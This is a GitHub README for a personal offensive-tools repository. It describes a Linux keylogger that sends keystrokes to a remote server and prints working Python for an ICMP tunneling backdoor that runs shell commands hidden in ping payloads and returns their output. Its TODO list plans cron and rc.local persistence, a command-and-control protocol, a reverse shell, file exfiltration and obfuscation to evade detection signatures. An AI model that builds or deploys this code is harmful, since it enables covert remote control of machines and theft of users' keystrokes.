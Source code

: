 # Details

## 1. keyloggers/klogger.s

TODO

## 2. keyloggers/klogger.py && keyloggers/server.py

A simple keylogger and its remote server for receiving keystroke data. Just a learning project — messing around with Linux input devices, sockets, and low-level stuff. 01/08/25 - added secure communication.

```
openssl genrsa -out server.key 2048
openssl req -new -key server.key -out server.csr
openssl x509 -req -in server.csr -signkey server.key -out server.crt -days 365
```

### TODO

- Make device detection smarter (support more than one keyboard or detect devices dynamically)
- Handle special keys better (Shift, Ctrl, etc.) — smarter key parsing
- Show or save logs on the server side
- Try supporting multiple clients at the same time

### Notes

- i would like to build keylogger in c as well

## 3. tunneling/icmp/server.py && tunneling/icmp/client.py

A simple ICMP tunneling server with a matching client. I only explained the server side since the client is very similar and didn’t need separate explanation.

3.1. icmp checksum function:

Calculates the ICMP checksum. This is used to verify packet integrity by detecting corruption during transmission.

```
def checksum(data):
    if len(data) % 2:
        data += b'\x00' 

    s = sum(data[i] + (data[i+1] << 8) for i in range(0, len(data), 2))
    s = (s >> 16) + (s & 0xffff)
    s += s >> 16
    return ~s & 0xffff
```

3.2. create_reply_packet function:

Before calculating the checksum, the checksum field in the ICMP header must be set to zero. This ensures the checksum is calculated correctly over the entire ICMP message (header + payload).

In ICMP Echo Reply packets, the Identifier and Sequence Number fields must be kept the same as in the corresponding Echo Request. These fields are used to match replies to their original requests, allowing the client to confirm that the response is valid and not from a different or unrelated packet.

After setting the checksum field to zero and ensuring the Identifier and Sequence Number match, we calculate the checksum and insert it into the header. The resulting ICMP packet is then ready to be sent back to the client.

ICMP Header: `Type (1B)` | `Code (1B)` | `Checksum (2B)` | `Identifier (2B)` | `Sequence Number (2B)`

Struct Module details: ! = network byte order (big-endian), B - Byte, H - Short

| Field        | Request (Echo)                   | Reply (Echo Reply) |
| ------------ | -------------------------------- | ------------------ |
| Type         | 8 (Echo Request)                 | 0 (Echo Reply)     |
| Identifier   | **Same**                         | **Same**           |
| Sequence     | **Same**                         | **Same**           |
| Payload/Data | Often the same, but not required | Often the same     |


```
def create_reply_packet(identifier, sequence, payload):
    header = struct.pack('!BBHHH', 0, 0, 0, identifier, sequence)
    data = payload.encode()
    chksum = checksum(header + data)
    header = struct.pack('!BBHHH', 0, 0, chksum, identifier, sequence)
    return header + data
```

3.3. verify_req_checksum function:

Each ICMP request includes a checksum that must be verified to ensure the integrity of the packet and detect any corruption during transmission.

```
def verify_req_checksum(code, chksum, ident, seq, payload):
    header = struct.pack('!BBHHH', 8, code, 0, ident, seq)
    data = payload.encode()
    chksum_rslt = checksum(header + data)
    if chksum_rslt == chksum:
        return True
    return False
```

3.4. main function:

Since we're using SOCK_RAW, the system does not automatically verify the ICMP checksum for us. That’s why we implement our own verify_req_checksum function to manually check the integrity of incoming packets.

We know the ICMP header starts at byte 20 because the IP header is always 20 bytes (assuming no IP options). The ICMP header itself is 8 bytes long, consisting of the Type, Code, Checksum, Identifier, and Sequence Number fields. So the actual data (payload/command) begins at byte 28:

`[ IP Header (20 bytes) ] + [ ICMP Header (8 bytes) ] + [ Data (variable length) ]`

After verifying the packet is intact, we extract the command from the payload, execute it, wrap the result into a new ICMP reply packet, and send it back to the client.

```
def main():
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)

    print("Waiting for ICMP packet...")
    while True:
        packet, addr = s.recvfrom(1024)
        print(packet)
        icmp_header = packet[20:28]
        print(icmp_header)
        type, code, chksum, ident, seq = struct.unpack('!BBHHH', icmp_header)

        print(f"request checksum: {chksum}")
        if type == 8:
            print(f"[+] Ping from {addr[0]}")
            command = packet[28:].decode(errors='ignore')
            if verify_req_checksum(code, chksum, ident, seq, command):
                output = subprocess.getoutput(command)
                reply = create_reply_packet(ident, seq, output)
                s.sendto(reply,(addr[0], 0))
            else:
                print("ICMP packet is corrupted")
```

### TODO

- add ncryption
- chunking large responses
- add a loop on the client that sends new commands without restarting
- reverse shell mode
- add the client to cron jobs, system startup scripts, or rc.local to maintain access
- Implement a mini command-and-control protocol:

    Command types: exec, download, upload, exit, info
    JSON-based or byte-coded protocol in the payload

- Obfuscation & Stealth

    Obfuscate traffic: random delays, mimic legit ICMP
    Use non-standard ICMP types (e.g. timestamp or unused codes)
    Base64 or XOR payloads to avoid static signatures

- Multi-Client Support
- add support for uploading/downloading files over ICMP packets
-  cross-platform compatibility

- [bitwise not](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Bitwise_NOT)
- [ICMP](https://www.rfc-editor.org/rfc/rfc792)
- [struct module](https://docs.python.org/3/library/struct.html)
- [ICMP wiki](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol)
- [socket](https://docs.python.org/3/library/socket.html)
- [ipaddress module](https://docs.python.org/3/library/ipaddress.html)
- [errors](https://docs.python.org/3/tutorial/errors.html)
- [computing the internet checksum](https://datatracker.ietf.org/doc/html/rfc1071)